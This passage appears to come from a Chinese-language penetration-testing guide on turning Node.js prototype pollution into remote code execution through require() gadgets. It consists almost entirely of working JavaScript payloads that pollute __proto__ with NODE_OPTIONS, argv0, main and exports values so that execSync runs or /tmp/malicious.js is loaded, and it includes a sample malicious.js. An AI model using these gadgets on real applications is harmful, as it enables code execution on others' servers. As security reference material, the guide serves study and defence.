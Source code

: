 ```javascript
// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"main": "/tmp/malicious.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_absolute\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('bytes');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```



```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork("anything");
```

#### 相对路径加载 - 1

如果加载的是**相对路径**而不是绝对路径，您可以让节点**加载不同的路径**：

```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.exports = { ".": "./malicious.js" }
b.__proto__["1"] = "/tmp"

// Trigger gadget
var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"exports": {".": "./malicious.js"}, "1": "/tmp", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_exports_1\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```



```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork('/path/to/anything');
```
